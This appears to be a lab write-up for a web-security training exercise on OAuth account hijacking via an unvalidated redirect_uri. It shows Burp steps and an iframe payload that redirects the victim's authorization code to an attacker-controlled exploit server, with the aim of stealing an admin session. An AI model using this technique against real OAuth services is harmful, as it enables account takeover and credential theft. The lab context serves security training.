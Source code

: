 
In Burp, study the OAuth flow in the proxy history and identify the most recent authorization request. This should start with GET /auth?client_id=[...]


<img width="1867" height="253" alt="image" src="https://github.com/user-attachments/assets/3413d7a6-f4b6-43ca-9208-8ff5461a66d7" />


 Notice that when this request is sent, you are immediately redirected to the redirect_uri along with the authorization code in the query string in the repeater Repeater.


<img width="1457" height="653" alt="image" src="https://github.com/user-attachments/assets/e9bd84ca-a244-435a-aecc-e20fed13b69c" />


After redirection we have session cookie and code

<img width="1476" height="467" alt="image" src="https://github.com/user-attachments/assets/4def3b60-a481-45e6-8ec5-1ce37d5080a5" />


In Burp Repeater, observe that you can submit any arbitrary value as the redirect_uri without encountering an error. Notice that your input is used to generate the redirect in the response.

<img width="1452" height="599" alt="image" src="https://github.com/user-attachments/assets/944b3855-0d02-47ea-bb93-ef8405db215c" />



Change the redirect_uri to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.

<img width="1895" height="78" alt="image" src="https://github.com/user-attachments/assets/6157cbea-62a4-4e24-82ef-de89c5dacf11" />



Now to solve lab we have send this request to admin and steal his session and delete carlos

Copy url to to paste in our payload

<img width="1436" height="712" alt="image" src="https://github.com/user-attachments/assets/84575ce2-683d-4264-ba96-79a16a0e0dd5" />


In our iframe we paste the copy url so it wil give requiest tro our Access log

Payload:
```http

<iframe src="https://oauth-0afc00560493150681550b6802070023.oauth-server.net/auth?client_id=q1tt5i9czwlvdedfb93r7&redirect_uri=https://exploit-0ab600b104ad15cd81b90c0501ca00cf.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>

```
<img width="1534" height="614" alt="image" src="https://github.com/user-attachments/assets/3bf06841-c61f-476a-8c9e-32a021ce51b0" />


Store the exploit and click "View exploit". Check that your iframe loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code.

<img width="1107" height="412" alt="image" src="https://github.com/user-attachments/assets/36090c74-3ff3-4d0a-9654-29d59c289147" />
